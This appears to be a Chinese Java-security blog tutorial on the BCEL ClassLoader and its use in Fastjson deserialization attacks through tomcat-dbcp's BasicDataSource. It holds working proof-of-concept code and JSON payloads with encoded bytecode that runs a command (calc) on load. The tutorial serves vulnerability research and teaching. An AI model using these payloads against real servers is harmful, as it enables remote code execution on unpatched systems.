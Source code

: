 ```yaml
---
title: Java安全之BCEL ClassLoader
date: 2024-03-13 16:53:00 +0800
img_path: /
categories: [Java安全, BCEL ClassLoader]
tags: [Java安全, BCEL ClassLoader]     
---
```


# Java安全之BCEL ClassLoader

## BCEL ClassLoader如何使用

在`JDK<JDK8u251`的版本里`BCEL`这个包中有个有趣的类`com.sun.org.apache.bcel.internal.util.ClassLoader`，他是一个`ClassLoade`r，但是他重写了Java内置的`ClassLoader#loadClass()`方法。

在`ClassLoader#loadClass()`中，其会判断类名是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行`decode`。

![image-20240313170215806](assets/image-20240313170215806.png)

我们尝试写一个恶意类通过BCEL去加载：

```java
package org.example;

import java.io.IOException;

public class Calc {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

```java
package org.example;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class Bcel {

    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(Calc.class);
        String code = "$$BCEL$$"+Utility.encode(javaClass.getBytes(),true);
        System.out.println(code);

        new ClassLoader().loadClass(code).newInstance();
    }
}

```

将`Calc`这个恶意类通过BCEL生成BCEL形式的字节码。加载后便执行了类中的`static`方法。

![image-20240313170504150](assets/image-20240313170504150.png)

也可以这样：

```java
package org.example;

public class ClassLoaderDemo {
    public static void main(String[] args) {
        try {
Class.forName("$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3d$D$85B$zo$f1$fdb$r$b8$a0$hw$Q7$8a$h$f0$R1$b8$$$e3$E$HKKJ$n$fc$91k6j$5c$f8$B$7e$94$f1N$r$80$b1I$ef$c9$3ds$k$9d$7e$7d$7f$7c$C8E$c9$80$8eu$DEl$q$b0$a9pK$c7$b6$8e$j$j$bb$M$f1$batep$c6$Q$zW$3a$M$da$b9$f7$u$Y2$z$e9$8a$eb$f1$a0$x$fc$7b$bb$eb$Q$93oy$dcv$3a$b6$_$d5$3e$t$b5$e0I$8e$94$da$f3$7b$d6$85$YxVc$o$9d$gC$a2$ce$9dyn$aa$j$d8$fc$f9$ca$k$86$kjf0$da$de$d8$e7$e2R$aa$8c$a4$b2T$fb$f6$c46$91$40R$c7$9e$89$7d$iP$G$f5$f1$aa$98$K$T$878b$u$u$8d$e5$d8n$cfjL$b9$Y$G$d2s$v$feO5Cv$a9$ba$e9$f6$F$P$YrK$ean$ec$Gr$40$adFO$E$8b$a5X$ae$b4$fei$e8$W$g$95s$86$e3$f2$cai$3b$f0$a5$db$ab$ad$gn$7d$8f$8b$d1$a8$86$S$e2$f4$ab$d5$T$BS$97$a1i$d0f$R2$c2$d8$c9$h$d8$y$3c$5e$a3$Z$P$c9$uL$9a$e6$af$A$v$a4$J$T$c8$y$cc$cd0$MH$bf$p$92$8f$beB$7bx$81$d6$9c$85$5c$92$7c1JPiiB$95$99$a4OHQ$82$Z$f6$AYzuDZ$3ar$mS$3e$a4$L$3f$qO$d5$f4$k$C$A$A",true,new com.sun.org.apache.bcel.internal.util.ClassLoader());
        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        }
    }
}
```



## BCEL在Fastjson漏洞中的利用

当前网络上广泛流传的利用链主要有以下三个：

- `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`
- `com.sun.rowset.JdbcRowSetImpl`
- `org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

第一个是通过`TemplatesImpl`加载恶意字节码，但是要求是开启` Feature.SupportNonPublicField`也就是：`JSON.parseObject(jsonString, Feature.SupportNonPublicField);`，但是实战中很少遇到这样的情况所以不是好用。

第二个是通过`JNDI`注入的形式加载远程服务器上的恶意类，既然需要加载远程恶意类所以要求目标机器出网，这种情况就不适用不出网的机器。

第三个就是利用了依赖包 `tomcat-dbcp` 指定`BCEL ClassLoader `加载恶意类，这种情况不需要目标机器出网，但是要求目标服务器的JDK版本小于8u251，因为在大于该版本的JDK中删除了`com.sun.org.apache.bcel.internal.util.ClassLoader`。

`dbcp`通过控制`DriverClassName`加载恶意类：

```java
package org.example;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

public class DbcpDemo {
    public static void main(String[] args) throws Exception {
        BasicDataSource basicDataSource = new BasicDataSource();
        String calc = "$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbn$d3$40$U$3d$93$97c$d7i$f3$m$8f$96$3ey$ra$817$ec$S$b1$a9$40B$b8$a4j$a2T$5dN$86$n$99$e0$d8$91$e3$b4$f9$p$d6$d9$A$C$J$f6$7c$U$e2$8e$89$d2$a8$c5$92$ef$9d$7b$ce$b9$e7$5e$8f$7f$ff$f9$fe$T$c0K4$y$98$a8Y$d8$c5$5e$W$Pu$de7p$60$e0$d0B$GG$G$8e$N$9c0d$da$caW$d1$x$86d$a3$d9gH$9d$G$l$q$c3$8e$ab$7c$f9$7e$3e$Z$c8$b0$c7$H$k$nE7$Q$dc$eb$f3P$e9z$F$a6$a2$91$9a$c5$5c8t$e4$82O$a6$9etN$b9$tZ$M$d9$b6$f0V$d6$8c$a4ew$cc$af$b9$a3$C$e7m$e7$f5B$c8i$a4$C$9fd$b9n$c4$c5$a73$3e$8d$ziA$G$ab$h$ccC$n$df$u$3d$c2$d4v$_t$af$N$L$5b$G$k$d9x$8c$t4$9b$d6$R6$9e$e2$ZC$e9$3f$de$M$7b1$eaq$7f$e8$5c$cc$fdHM$e4$9a$d4$5eu$86$fc$dd$bd$J$bam$ea$M$c6RD$M$85$7b$3e$b4$e3PF$eb$a2$dch$ba$f74$f4m$v$b9$90dYol$b0$dd$uT$fe$b0$b5$d9p$k$GB$cef$d4P$dbT$f6Fap$a3$_$a5$d5$ec$e3$EY$fa$9b$faI$80$e9$8b$a0hS$e5Pf$94$d3$cf$bf$82$zc$3aG1$f3$P$c46E$7bu$deA$9er$W$85u$f3G$qc$ae$fa$N$89b$f2$LR$97$9f$91$7b$f7$D$99$xr3$7e$zc$d2$qi$9a$84$da$b6B$t$c4$9bl$Rj$Sf$Rf$af$c7$e4$I$x$a2D$d5$Dz$N$q$5c$De$93$88J$bcY$f5$_$i$9b$a2$9e$9c$C$A$A";
        ClassLoader classLoader = new ClassLoader();
        basicDataSource.setDriverClassLoader(classLoader);
        basicDataSource.setDriverClassName(calc);
        basicDataSource.getConnection();
    }
}
```

```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class FastjsonDemo {
    public static void main(String[] args) {
        String exp1 = "{\n" +
                "        \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "        \"driverClassLoader\": {\n" +
                "            \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "        },\n" +
                "        \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3d$D$85B$zo$f1$fdb$r$b8$a0$hw$Q7$8a$h$f0$R1$b8$$$e3$E$HKKJ$n$fc$91k6j$5c$f8$B$7e$94$f1N$r$80$b1I$ef$c9$3ds$k$9d$7e$7d$7f$7c$C8E$c9$80$8eu$DEl$q$b0$a9pK$c7$b6$8e$j$j$bb$M$f1$batep$c6$Q$zW$3a$M$da$b9$f7$u$Y2$z$e9$8a$eb$f1$a0$x$fc$7b$bb$eb$Q$93oy$dcv$3a$b6$_$d5$3e$t$b5$e0I$8e$94$da$f3$7b$d6$85$YxVc$o$9d$gC$a2$ce$9dyn$aa$j$d8$fc$f9$ca$k$86$kjf0$da$de$d8$e7$e2R$aa$8c$a4$b2T$fb$f6$c46$91$40R$c7$9e$89$7d$iP$G$f5$f1$aa$98$K$T$878b$u$u$8d$e5$d8n$cfjL$b9$Y$G$d2s$v$feO5Cv$a9$ba$e9$f6$F$P$YrK$ean$ec$Gr$40$adFO$E$8b$a5X$ae$b4$fei$e8$W$g$95s$86$e3$f2$cai$3b$f0$a5$db$ab$ad$gn$7d$8f$8b$d1$a8$86$S$e2$f4$ab$d5$T$BS$97$a1i$d0f$R2$c2$d8$c9$h$d8$y$3c$5e$a3$Z$P$c9$uL$9a$e6$af$A$v$a4$J$T$c8$y$cc$cd0$MH$bf$p$92$8f$beB$7bx$81$d6$9c$85$5c$92$7c1JPiiB$95$99$a4OHQ$82$Z$f6$AYzuDZ$3ar$mS$3e$a4$L$3f$qO$d5$f4$k$C$A$A\"\n" +
                "}\n";
        String exp2 = "{\n" +
                "    {\n" +
                "        \"@type\": \"com.alibaba.fastjson.JSONObject\",\n" +
                "        \"x\":{\n" +
                "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "                \"driverClassLoader\": {\n" +
                "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "                },\n" +
                "                \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbn$d3$40$U$3d$93$97c$d7i$f3$m$8f$96$3ey$ra$817$ec$S$b1$a9$40B$b8$a4j$a2T$5dN$86$n$99$e0$d8$91$e3$b4$f9$p$d6$d9$A$C$J$f6$7c$U$e2$8e$89$d2$a8$c5$92$ef$9d$7b$ce$b9$e7$5e$8f$7f$ff$f9$fe$T$c0K4$y$98$a8Y$d8$c5$5e$W$Pu$de7p$60$e0$d0B$GG$G$8e$N$9c0d$da$caW$d1$x$86d$a3$d9gH$9d$G$l$q$c3$8e$ab$7c$f9$7e$3e$Z$c8$b0$c7$H$k$nE7$Q$dc$eb$f3P$e9z$F$a6$a2$91$9a$c5$5c8t$e4$82O$a6$9etN$b9$tZ$M$d9$b6$f0V$d6$8c$a4ew$cc$af$b9$a3$C$e7m$e7$f5B$c8i$a4$C$9fd$b9n$c4$c5$a73$3e$8d$ziA$G$ab$h$ccC$n$df$u$3d$c2$d4v$_t$af$N$L$5b$G$k$d9x$8c$t4$9b$d6$R6$9e$e2$ZC$e9$3f$de$M$7b1$eaq$7f$e8$5c$cc$fdHM$e4$9a$d4$5eu$86$fc$dd$bd$J$bam$ea$M$c6RD$M$85$7b$3e$b4$e3PF$eb$a2$dch$ba$f74$f4m$v$b9$90dYol$b0$dd$uT$fe$b0$b5$d9p$k$GB$cef$d4P$dbT$f6Fap$a3$_$a5$d5$ec$e3$EY$fa$9b$faI$80$e9$8b$a0hS$e5Pf$94$d3$cf$bf$82$zc$3aG1$f3$P$c46E$7bu$deA$9er$W$85u$f3G$qc$ae$fa$N$89b$f2$LR$97$9f$91$7b$f7$D$99$xr3$7e$zc$d2$qi$9a$84$da$b6B$t$c4$9bl$Rj$Sf$Rf$af$c7$e4$I$x$a2D$d5$Dz$N$q$5c$De$93$88J$bcY$f5$_$i$9b$a2$9e$9c$C$A$A\"\n" +
                "        }\n" +
                "    }: \"x\"\n" +
                "}";

        JSONObject jsonObject = JSON.parseObject(exp1);
        Object parse = JSON.parse(exp2);
    }
}
```

`tomcat7`：`org.apache.tomcat.dbcp.dbcp.BasicDataSource`

```xml
    <!-- https://mvnrepository.com/artifact/org.apache.tomcat/dbcp -->
    <dependency>
        <groupId>org.apache.tomcat</groupId>
        <artifactId>dbcp</artifactId>
        <version>6.0.53</version>
    </dependency>
```

POC：

```Json
{
    {
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$..."
        }
    }: "x"
}
```

`tomcat8`及其以后：`org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

```xml
	<!-- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp -->
    <dependency>
        <groupId>org.apache.tomcat</groupId>
        <artifactId>tomcat-dbcp</artifactId>
        <version>9.0.8</version>
    </dependency>
```

POC：

```Json
{
    {
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$..."
        }
    }: "x"
}
```

这里PoC结构上还有一个值得注意的地方在于，

1. 先是将 `{"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"……} `这一整段放到`JSON Value`的位置上，之后在外面又套了一层 `{}`。
2. 之后又将` Payload `整个放到了`JSON` 字符串中 `Key `的位置上。

为什么这么设计呢？

因为为了完成前面说的一整个利用链，我们需要触发上方例子中的 `BasicDataSource.getConnection()` 方法。

具体细节请看 [FastJson反序列化漏洞利用的三个细节](https://mp.weixin.qq.com/s/C1Eo9wst9vAvF1jvoteFoA)，简单说就是：`FastJson`中的` JSON.parse() `会识别并调用目标类的 `setter` 方法以及某些满足特定条件的 `getter` 方法，然而` getConnection() `并不符合特定条件，所以正常来说在 `FastJson` 反序列化的过程中并不会被调用。原`PoC`中很巧妙的利用了 `JSONObject`对象的 `toString()` 方法实现了突破。`JSONObject`是Map的子类，在执行`toString() `时会将当前类转为字符串形式，会提取类中所有的`Field`，自然会执行相应的 `getter` 、`is`等方法。

## 